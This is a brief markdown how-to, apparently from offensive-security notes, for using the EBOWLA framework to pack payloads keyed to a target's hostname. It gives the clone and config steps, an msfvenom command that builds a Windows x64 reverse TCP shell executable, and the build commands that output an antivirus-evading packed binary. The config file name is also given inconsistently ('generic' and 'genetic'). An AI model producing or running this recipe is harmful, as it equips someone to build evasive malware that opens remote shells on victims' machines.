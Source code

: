 # EBOWLA usage

### Get EBOWLA

```git clone https://github.com/Genetic-Malware/Ebowla```

```cd Ebowla```

### edit generic.config:

change:

output_type = GO

payload_type = EXE

Set at least one environment variable (computername = hostname),
the name has to be exact, as Ebowla won't decrypt otherwise.

Make, as an example, a reverse shell payload with metersploit: 

```msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f exe -a x64 -o shell.exe```

```python2 ebowla.py shell.exe genetic.config```

```./build_x64_go.sh output/<outputfilefromfirststeps> <finalfilename>```

The finished, packed executable can be found in the **output** folder.
